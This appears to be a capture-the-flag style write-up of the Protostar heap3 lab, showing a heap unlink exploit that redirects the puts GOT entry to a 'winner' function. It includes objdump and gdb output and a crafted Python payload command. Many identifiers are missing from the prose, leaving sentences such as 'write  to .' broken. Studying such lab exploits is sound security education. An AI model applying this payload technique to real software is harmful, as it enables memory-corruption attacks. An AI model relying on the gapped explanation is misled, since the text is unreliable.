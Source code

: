 \begin{lstlisting}[language=bash]
  *(P->fd + 12) = P->bk
  *(P->bk + 8) = P->fd
\end{lstlisting}

We notice that on  that  is also called, which we can
potentially modify to call  instead. With all this, we can proceed
to try to attack the code.

\subsection*{Idea and Attack process}

We now have an idea of what our 2nd parameter should be. It would first write 32
bytes followed by the 2 negative numbers denoted in hex ($-4$)
as  and , followed by a
filler for alignment and the address of  in the GOT table
and the address of the function . We also have to note that we must
$-12$ from the address of  because of the 

\begin{lstlisting}[language=bash]
objdump -TR /opt/protostar/bin/heap3 | grep puts
>>>00000000      DF *UND*  00000000  GLIBC_2.0   puts
>>>0804b128 R_386_JUMP_SLOT   puts

print &winner
>>>$1 = (void (*)(void)) 0x8048864 <winner>

run A `python -c "print 'A' * 32 + '\xfc\xff\xff\xff'*2 + 'A' * 4 + '\x1c\xb1\x04\x08\x64\x88\x04\x08'"` D
>>>Program received signal SIGSEGV, Segmentation fault.
>>>0x08049906 in free (mem=0x804c058) at common/malloc.c:3638
>>>3638    in common/malloc.c
p $_siginfo._sifields._sigfault
>>>$1 = {si_addr = 0x804886c}
\end{lstlisting}

To explain what is going on, recall how the  function works. It will
first attempt to write the address of  in the address 
which is the the GOT table
pointing to . Then, afterwards, it will write  to
.

\begin{center}
  \includegraphics[width=0.5\textwidth]{"unlink diag.png"}
\end{center}

